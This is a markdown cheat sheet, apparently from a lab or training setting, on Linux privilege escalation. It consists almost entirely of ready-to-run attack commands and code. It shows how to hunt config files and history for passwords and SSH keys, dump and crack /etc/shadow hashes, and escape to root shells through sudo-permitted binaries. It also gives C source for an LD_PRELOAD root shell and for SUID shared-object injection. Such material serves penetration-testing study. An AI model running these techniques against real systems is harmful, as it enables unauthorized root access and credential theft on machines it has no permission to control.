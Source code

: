 # Linux Privesc

- [1. Search Stored Passwords from Config Files](#1-search-stored-passwords-from-config-files)
- [2. Fetching Passwords from /etc/shadow](#2-fetching-passwords-from-etcshadow)
- [3. Escalate Privileges with SSH Key](#3-escalate-privileges-with-ssh-key)
- [4. Shell Escaping via Sudo](#4-shell-escaping-via-sudo)
- [5. Using LD PRELOAD](#5-Using-LD-PRELOAD)
- [6. Privilege Escalation via SUID](#6-Privilege-Escalation-via-SUID)

## 1. Search Stored Passwords from Config Files
### Commands to Find Passwords and SSH Keys
- Search for all config files:
  ```sh
  find / -type f -name "config" 2>/dev/null
  ```
- Search for files containing the word "password":
  ```sh
  find / -type f -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for config files containing the word "password":
  ```sh
  find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for SSH keys:
  ```sh
  find / -name id_rsa 2>/dev/null
  ```
- Search command history for "password":
  ```sh
  history | grep -i "password"
  ```

## 2. Fetching Passwords from /etc/shadow
### Steps to Extract and Crack Password Hashes
1. Extract the `/etc/passwd` file:
   ```sh
   cat /etc/passwd
   ```
   Save output to `passwd.txt`.
2. Extract the `/etc/shadow` file:
   ```sh
   cat /etc/shadow
   ```
   Save output to `shadow.txt`.
3. Combine `passwd.txt` and `shadow.txt` into an unshadowed file:
   ```sh
   unshadow passwd.txt shadow.txt > unshadow.txt
   ```
4. Crack the hashes using Hashcat with the `rockyou.txt` wordlist:
   ```sh
   hashcat -m 1800 unshadow.txt rockyou.txt -O
   ```

## 3. Escalate Privileges with SSH Key
### Steps to Gain Root Access Using SSH Keys
1. Locate `authorized_keys` or `id_rsa` files:
   ```sh
   find / -name authorized_keys 2>/dev/null
   ```
   or
   ```sh
   find / -name id_rsa 2>/dev/null
   ```
2. Save the `id_rsa` file to your machine.
3. Set appropriate permissions for the `id_rsa` file:
   ```sh
   chmod 400 id_rsa
   ```
4. Attempt to access the root shell on the target machine:
   ```sh
   ssh -i id_rsa root@<target-ip>
   ```

## 4. Shell Escaping via Sudo
### Steps to Escalate Privileges Using Sudo
1. Check for sudo permissions:
   ```sh
   sudo -l
   ```
   
![Screenshot From 2025-05-09 22-29-02](https://github.com/user-attachments/assets/0c5884f1-c62c-4203-a7b6-7e503ae49065)<br>

   Output will show commands that can be run as root without a password.
   
1. Exploit passwordless sudo access to gain a root shell using one of the following:

   ```sh
   sudo find /bin -name nano -exec /bin/sh \;
   sudo awk 'BEGIN {system("/bin/sh")}'
   echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
   sudo vim -c '!sh'
   ```
2. Abusing Intended Functionality

   ```sh
   sudo apache2 -f /etc/shadow
   ```
Here, we're telling Apache (with root privileges) to treat /etc/shadow as its configuration file — which is not a valid Apache config, so Apache will try to parse it and fail, which will throw an error message with the hash from /etc/shadow. Now, save the hash in a file hash.txt and we can crack this hash using hashcat or john.
<br>

![Screenshot From 2025-05-09 23-08-43](https://github.com/user-attachments/assets/39d9ca62-ee96-48a8-86cb-fcede471e40e)

## 5. Using LD PRELOAD

LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID. <br>
<br>
1. Check for LD_PRELOAD with the `env_keep` option using `sudo -l`
2. Type `nano x.c` and paste the code and save:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Now type:
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```
In this case we are using `apache2`. We can use other programs if possible.

## 6. Privilege Escalation via SUID

Make note of all the SUID binaries `suid-so`, `suid-env`, `suid-env2` .

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot From 2025-05-10 00-49-01](https://github.com/user-attachments/assets/4707d42c-8710-4a46-b854-f7630e3ffcaf)

**SUID Shared Object Injection**

1. Search if there any .so file is missing from a writable directory. `/home/user/.config/libcalc.so`

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Screenshot From 2025-05-10 00-45-04](https://github.com/user-attachments/assets/5741fd84-80c5-4bd3-9651-930316755759)

2. Now create a `libcalc.c` file under the `/home/user/.config/` directory and paste the code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
3. Compile and run the file:
```sh
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

**SUID Environment Variables**

1. Search if there is any env variables `suid-env`

```sh
strings /usr/local/bin/suid-env
```

---

# short

getcap -r / 2>/dev/null (capabilities)

cat /etc/crontab (cron)

cat /etc/exports (nfs root)

echo $PATH
